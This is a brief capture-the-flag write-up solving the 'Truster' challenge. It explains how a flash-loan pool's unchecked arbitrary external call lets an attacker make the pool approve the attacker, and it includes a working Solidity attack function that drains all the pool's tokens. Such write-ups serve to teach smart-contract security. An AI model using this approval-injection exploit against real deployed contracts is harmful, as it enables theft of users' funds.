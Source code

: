 ## Truster solution

The challenge is straighforward: we have to take all tokens out of the pool, preferably in a single transaction. In `flashLoan` function we can pass a `target` contract and an arbitrary `data` for our call on the target. There is also a check whether the token balance before the external call and after it is the same. The problem here is that the `msg.sender` of the external call would be the pool itself. Since it doesn't check the allowance the same way it checks the balance, an attacker can approve allowance for himself, passing the right data to the function, and then transfer all the tokens.

```
    function attack() public {
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),
            type(uint256).max
        );
        pool.flashLoan(0, address(this), address(token), data);
        token.transferFrom(
            address(pool),
            address(attacker),
            token.balanceOf(address(pool))
        );
    }
```